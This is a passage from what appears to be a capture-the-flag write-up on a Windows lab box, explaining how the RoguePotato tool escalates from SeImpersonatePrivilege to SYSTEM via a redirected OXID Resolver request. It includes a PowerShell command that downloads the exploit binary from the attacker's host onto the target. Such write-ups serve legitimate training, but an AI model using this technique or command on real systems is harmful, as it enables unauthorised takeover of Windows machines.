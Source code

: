 In May 2020, [@splinter\_code](https://twitter.com/splinter_code) and [@decoder\_it](https://twitter.com/decoder_it) released RoguePotato:

> No more JuicyPotato? Old story, welcome RoguePotato!  
> Checkout our blog post by [@decoder\_it](https://twitter.com/decoder_it?ref_src=twsrc%5Etfw) and me.<https://t.co/9lH6MdVjsb>
>
> — Antonio Cocomazzi (@splinter\_code) [May 11, 2020](https://twitter.com/splinter_code/status/1259862885112729601?ref_src=twsrc%5Etfw)

[The blog post](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/) provides a ton of detail. But the TL;DR is that I can still go from `SeImpersonatePrivlege` to system. I did a blog post showing [RoguePotato on Remote](/2020/09/08/roguepotato-on-remote.html) last September, but this was the first box I actually had used it on.

### What’s New In Rogue?

Part of the Potato attack is to send a request to the OXID Resolver which runs as part of the `rpcss` service and listens on TCP 135. Prior to Windows 10 1809 / Server 2019, the invoker could specify that they wante to actually contact the OXID Resolver on a different port, which allows earlier Potatoes like JuicyPotato to set up a fake OXID Resolver and handle that request. That’s what the `-l` parameter is - What port should the fake OXID Resolver listen on. For example, from my [writeup for Json](/2020/02/15/htb-json.html#priv-3-userpool--system), I’m telling the fake OXID Resolver to listen on localhost:9001:

![image-20210129104048450](https://0xdfimages.gitlab.io/img/image-20210129104048450.png)

Now in modern Windows OXID Resolutions can only happen on TCP 135, and the legit service is already running there. But the resolution is not limited to the local machines. So now I pass RoguePotato my IP, and it will send the OXID Resolver request to that IP on TCP 135. I have two options to handle this. The simplest is to use something like `socat` to tunnel that request right back to the Windows host where RoguePotato is listening. If the box where RoguePotato is run is blocking in bound connections or can’t be reached like that, the RP repo also has an exe that can be run on a machine I control.

![image-20210129110002264](https://0xdfimages.gitlab.io/img/image-20210129110002264.png)

Either way, RoguePotato is able to get the request to the Fake OXID Resolver on TCP 135.

### Initial Attempt

I’ll grab a copy of the release binary from [GitHub](https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.zip), and upload it to Worker using a local Python webserver and PowerShell:

```

c:\ProgramData>powershell -c wget http://10.10.14.24/RoguePotato.exe -outfile RoguePotato.exe

```

There’s a problem here. The firewall is blocking all inbound tcp ports except for the three identified during the initial `nmap`. RoguePotato needs to have a listening port such that the connection to TCP 135 on my host is tunneled back to the target host on that port.

